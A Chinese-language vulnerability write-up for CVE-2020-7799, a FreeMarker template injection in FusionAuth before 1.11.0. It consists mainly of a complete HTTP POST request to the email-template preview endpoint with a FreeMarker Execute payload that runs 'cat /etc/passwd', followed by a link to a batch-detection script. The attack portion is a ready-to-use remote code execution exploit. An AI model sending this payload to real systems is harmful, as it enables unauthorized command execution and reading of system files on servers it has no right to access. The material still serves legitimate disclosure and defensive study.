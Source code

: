 ```yaml
---
title: "（CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞"
id: zhfly2814
---
```


# （CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞

## 一、漏洞简介

在FusionAuth 1.11.0版本之前的中发现了一个问题。经过身份验证的用户允许编辑电子邮件模板（主页->设置->电子邮件模板）或主题（主页->设置->主题），可利用`freemarker.template.utility.Execute`执行任意命令

## 二、漏洞影响

## 三、复现过程

post提交

```
POST /ajax/email/template/preview HTTP/1.1
Host: www.0-sec.org:9011
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 796
DNT: 1
Connection: close
Referer: http://192.168.0.3:9011/admin/email/template/edit/2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b
Cookie: JSESSIONID=FA9DB3CBABA6B37E5336AE4B96001807; 

primeCSRFToken=kRC228UjAA4ohN_E9PW9kz0HpTlxUDCB_HVrDhBUfWU&emailTemplateId=2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b&emailTemplate.name=COPPA%20Notice&emailTemplate.defaultSubject=Notice%20of%20your%20consent&emailTemplate.fromEmail=no-reply%[40fusionauth.io](http://40fusionauth.io)&emailTemplate.defaultFromName=FusionAuth&emailTemplate.defaultTextTemplate=You%20recently%20granted%20your%20child%20consent%20in%20our%20system.%20This%20email%20is%20to%20notify%20you%20of%20this%20consent.%20If%20you%20did%20not%20grant%20this%20consent%20or%20wish%20to%20revoke%20this%20consent%2C%20click%20the%20link%20below%3A%0A%0Ahttp%3A%2F%[2Fexample.com](http://2Fexample.com)%2Fconsent%2Fmanage%0A%0A-%20FusionAuth%20Admin&emailTemplate.defaultHtmlTemplate=${“freemarker.template.utility.Execute”?new()(“cat /etc/passwd”)}} 
```

![image](../img/fd796394c31241ff20aa4ff376929820.png)

### 批量检测脚本

https://github.com/ianxtianxt/CVE-2020-7799/

## 参考链接

> https://www.anquanke.com/vul/id/1910928

> https://cert.360.cn/warning/detail?id=207275e27a6e7ee85a43a6eb5cf5fc69